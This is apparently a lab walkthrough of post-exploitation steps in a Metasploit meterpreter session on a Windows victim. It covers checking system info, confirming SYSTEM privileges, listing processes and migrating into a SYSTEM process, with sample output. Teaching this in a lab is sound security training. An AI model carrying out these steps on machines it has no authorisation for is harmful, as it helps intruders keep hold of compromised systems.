


a) We're in a “meterpreter” session on Metasploit.
Let's see some info about the victim.
meterpreter > sysinfo
Output: 
b) Verify that we have escalated to “NT AUTHORITY\SYSTEM”.
meterpreter > getuid
Output: Server username: NT AUTHORITY\SYSTEM
c) List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).
meterpreter > ps
Output: 
d) Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.
meterpreter > migrate 1980
Output: [*] Migrating from 596 to 1980... [*] Migration completed successfully.